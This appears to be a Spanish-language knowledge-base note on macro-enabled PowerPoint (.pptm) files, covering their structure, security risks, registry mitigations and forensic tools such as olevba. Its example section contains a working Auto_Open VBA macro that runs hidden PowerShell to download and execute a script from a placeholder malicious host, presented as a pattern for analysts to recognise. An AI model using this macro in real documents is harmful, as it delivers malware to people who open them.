

#Programación #Software #Windows #LenguajesDeProgramación #Automatización
# Archivos PPTM (PowerPoint Macro-Enabled Presentation)

## 📌 Definición
- **Extensión**: `.pptm` (vs `.pptx` que no soporta macros).
- **Tipo MIME**: `application/vnd.ms-powerpoint.presentation.macroEnabled.12`.
- **Contiene**: Diapositivas + **macros embebidas** (código VBA).

---

## 🔍 Estructura Técnica
1. **Formato subyacente**: 
   - Basado en [[Office Open XML]] (ZIP comprimido con estructura de carpetas).
   - Puede descomprimirse con:
     ```bash
     unzip presentacion.pptm -d carpeta_descomprimida
     ```
2. **Contenido clave**:
   - `ppt/slides/`: Diapositivas individuales (XML).
   - `ppt/vbaProject.bin`: Macros en formato binario ([[VBA]]).
   - `_rels/`: Relaciones entre archivos.

---

## ⚠️ Riesgos de Seguridad
### 🔴 Amenazas comunes
1. **Macros maliciosas**:
   - Ejecutan código al abrir el archivo (ej. descargar [[payload]]).
   - Técnicas como [[DDE Exploits]] o shellcode embebido.
2. **Obfuscación**:
   - Código VBA ofuscado para evadir AV (ej. [[AutoClose]] + `Call` anidados).

### 🛡️ Mitigaciones
- **Políticas de Office**:
  ```registry
  [HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\PowerPoint\Security]
  "VBAWarnings"=dword:00000001
  ```
- **Configuración recomendada**:
  - Deshabilitar macros en el [[Trust Center]].
  - Usar [[AMSI]] (Antimalware Scan Interface) para escaneo en tiempo real.

---

## 🔧 Análisis Forense
### Herramientas clave:
1. **OleVBA** (Python):
   ```bash
   olevba.py presentacion.pptm --decode
   ```
   - Detecta patrones maliciosos (ej. `Shell`, `WScript.Shell`).
2. **Process Monitor**:
   - Monitorea actividad al abrir el PPTM (creación de procesos, acceso a registro).

### Técnicas:
- Extraer VBA con `7z`:
  ```bash
  7z e presentacion.pptm -oextracted vbaProject.bin
  ```
- Inspeccionar con **VBADecompiler** o [[IDA Pro]].

---

## 📊 Comparación PPTX vs PPTM
| Característica       | PPTX          | PPTM               |
|----------------------|---------------|--------------------|
| Macros               | ❌ No         | ✅ Sí              |
| Tamaño               | Menor         | Mayor (por VBA)    |
| Riesgo seguridad     | Bajo          | Alto               |
| Casos de uso         | Presentaciones estáticas | Presentaciones interactivas |

---

## 🛠️ Ejemplo de Macro VBA en PPTM
```vba
Sub Auto_Open()
    Dim cmd As String
    cmd = "powershell -nop -exec bypass -c ""IEX (New-Object Net.WebClient).DownloadString('http://malicio.so/payload.ps1')"""
    Shell cmd, vbHide
End Sub
```
- **Patrón malicioso**: Descarga remota + ejecución oculta (`vbHide`).

---

## 📂 Diagrama de Análisis (Mermaid)


---

## 🔗 Conceptos Relacionados
- [[Macros]] | [[VBA Malware]] | [[Forensic]] | [[Phishing]]